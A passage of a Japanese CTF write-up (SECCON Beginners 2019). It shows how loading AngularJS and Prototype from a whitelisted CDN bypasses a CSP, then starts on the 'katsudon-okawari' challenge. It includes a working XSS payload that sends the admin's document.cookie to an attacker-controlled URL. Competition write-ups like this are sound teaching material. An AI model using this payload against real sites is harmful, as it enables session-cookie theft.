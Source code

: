 ```
cdnjs.cloudflare.com: cdnjs.cloudflare.com is known to host Angular libraries which allow to bypass this CSP.
```

`cdnjs.cloudflare.com` は [AngularJS](https://angularjs.org/) をホストしており、このため CSP をバイパスできてしまうようです。どういうことでしょうか。

`angular csp bypass` 等のキーワードでググってみると、[H5SC Minichallenge 3](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22) の記事がヒットしました。[191 バイトの解法](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it's-CSP!%22#191-bytes)の、AngularJS と [Prototype](http://prototypejs.org/) をあわせてロードし、`Function.prototype.curry` を呼んだ結果からグローバルオブジェクトを手に入れるという手法を利用しましょう。

以下のような内容で意見を投稿します。

```html
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.1/angular.js"></script>
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>
<div ng-app ng-csp>{% raw %}{{$on.curry.call().location.replace('http://(URL)?'+($on.curry.call().document.cookie))}}{% endraw %}</div>
```

この意見を管理者に届けると、フラグが得られました。

```
ctf4b{MEOW_MEOW_MEOW_NO_MORE_WHITELIST_MEOW}
```

### katsudon-okawari (469)
> クーポンの管理画面なんだよな...
> 
> https://(省略)/  
> https://(省略)/flag

<blockquote class="twitter-tweet" data-lang="ja"><p lang="ja" dir="ltr">katsudonについて､問題にミスがあることが判明いたしました。修正版をkatsudon-okawariとして追加致しました。この度は申し訳ありませんでした。 <a href="https://twitter.com/hashtag/ctf4b?src=hash&amp;ref_src=twsrc%5Etfw">#ctf4b</a> <a href="https://twitter.com/hashtag/seccon?src=hash&amp;ref_src=twsrc%5Etfw">#seccon</a></p>&mdash; SECCON Beginners (@ctf4b) <a href="https://twitter.com/ctf4b/status/1132272479114747904?ref_src=twsrc%5Etfw">2019年5月25日</a></blockquote>
<script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>

ということで、katsudon に存在したミスを修正したバージョンのようです。試しに `/flag` にアクセスしてみましょう。

```
bQIDwzfjtZdvWLH+HD5jhhZW4917cFKbx7LDRPzsL3JXqQ8VJp5RYfKIw5xqe/xhLg==--cUS9fQetfBC8wsV7--E8vQbRF4vHovYlPFvH3UnQ==
```

今度は `bQIDwzfjtZdvWLH+HD5jhhZW4917cFKbx7LDRPzsL3JXqQ8VJp5RYfKIw5xqe/xhLg==` を Base64 デコードしてもフラグが表示されません。

---

さて、この Web アプリケーションには `/flag` のほかに `/storelists` と `/coupon` の 2 つのコンテンツがありますが、いずれもフォーム等は存在せず、ユーザ入力ができる箇所はないようです。

ここで katsudon の問題文をもう一度見てみましょう。
